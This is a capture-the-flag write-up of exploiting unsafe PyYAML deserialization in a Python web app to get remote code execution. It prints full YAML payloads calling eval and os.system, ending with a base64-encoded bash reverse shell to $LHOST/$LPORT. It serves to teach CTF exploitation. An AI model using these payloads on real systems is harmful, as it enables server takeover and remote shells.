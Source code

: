 # Loader challenge Writeup : 

- Challenge Name : Loader

- Weight : 400 pts



TL;DR : Exploiting a Python De-Serialization leading to an RCE thanks To yaml/PyYaml.



This is the main challenge page "adminer loader" with a data submission form.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/loadder_x.gif?token=GHSAT0AAAAAABTT5PBKXFRB2D3HCN5AH6JMYS6DYIA)




as you can see! you simply submit an input text and it get reflected/alerted.



looking under the hood we have this interesting js script that actually posts data on `api/load`, and after posting it! it gets alerted.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/magic_behind.PNG?token=GHSAT0AAAAAABTT5PBLQKOWFT3YEZU5CLYGYS6DZBQ)

one more interesting thing is the `btoa()` js function that converts the input string to an base64. confirmed by intercepting the request on burp as shown.
the response also show an interesting server header indicating that this runs on py.


Challenge hint mentioned a data format used by SOC Team leads and Threat hunters, after some time it was obviously yaml.


> .... (and) YAML is a human-readable data-serialization language. It is commonly used for configuration files and in applications where data is being stored...

spent sometime reading papers and references along with g0rchy ended up with constructing a "checkup payload" to check if we really about to solve this challenge. 



checkup payload looked like this : 

> `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ '1+1' ]]]`

simple `!!python/object/new:tuple` to initiate a tuple since were running on YAML...,  `map()` to serve both the function and the iterable that will be "mapped" and `eval()` to check the legality of the python statement... and you know 1+1 :) .






seems like we are in the correct direction!


The second payload we did call python and tried to get at least the built-in python-id trace : 

> `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('id')" ]]]`

Returned with the `os.system()` encoded exit value 0 that means success! well, that's great.

The last constructed payload is to get a bash rev shell

according to my teammate g0rchy in APTx1337 who likes keeping the team's work as based as possible we used base64 encoded bash reverse shell, and for the guys who can't handle based-ness you can use escaped quotes bash payloads!

the final payload looks like this : 


> ` !!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('echo c2ggLWkgPiYgL2Rldi90Y3AvJExIT1NULyRMUE9SVCAwPiYx|base64 -d|bash')" ]]]`

and...













it works! 
